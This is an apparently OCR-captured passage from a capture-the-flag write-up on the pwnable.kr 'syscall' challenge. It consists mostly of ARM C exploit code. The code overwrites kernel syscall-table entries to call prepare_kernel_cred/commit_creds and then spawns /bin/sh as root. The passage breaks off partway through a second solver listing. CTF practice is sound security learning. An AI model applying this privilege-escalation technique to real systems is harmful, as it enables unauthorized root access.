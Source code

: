 ```
        : "=r" (ret)
        : "r" (waa), "r" (0x83f5cafe),
          "r" (addr1), "r" (0x8000e6c4)
        : "r0", "r1", "r2", "r3", "lr"
    );
    printf("return value: %x\n", ret);

    asm volatile (
        "mov r0, %1\n"
        "mov r1, %2\n"
        "mov r2, %3\n"
        "mov r7, #223\n"
        "svc #0\n"
        "mov r0, %4\n"
        "mov r1, %5\n"
        "mov r2, %6\n"
        "mov r7, #223\n"
        "svc #0\n"
        "mov %0, r0"
        : "=r" (ret)
        : "r" (cred), "r" (0x83f6beee), "r" (89),
          "r" (addr2), "r" (0x8000e6c4), "r" (5),
          "r" (0)
        : "r0", "r1", "r2", "r3", "r5", "lr"
    );
    printf("return value: %x\n", ret);

    asm volatile (
        "mov r7, #223\n"
        "svc #0\n"
        "mov %0, r0"
        : "=r" (ret)
        :
        : "r0", "r1", "r3", "lr"
    );

    execl("/bin/sh", "sh", NULL);
    return 0;
}
```



参考: [http://w0lfzhang.me/2017/04/27/pwnable-syscall/](http://w0lfzhang.me/2017/04/27/pwnable-syscall/)

```
//gcc -o solver solver.c -std=c99
#include <unistd.h>
#include <stdio.h>
#define SYS_CALL_TABLE 0x8000e348
#define PREPARE_KERNEL_CRED 0x8003f924
//0x8003f56c  '6c' is low_case, so adding padding to '60'
#define COMMIT_CREDS 0x8003f560
#define SYS_EMPTY_A 188
#define SYS_EMPTY_B 189
int main() {
    unsigned int* sct = (unsigned int*)SYS_CALL_TABLE;
    char nop[] = "\x01\x10\xa0\xe1";  //rasm2 -a arm 'mov r1,r1'
    char buf[20];
    for (int i = 0; i < 12; i++) {
        buf[i] = nop[i % 4];
    }
    buf[12] = 0;
    syscall(223, buf, COMMIT_CREDS);
```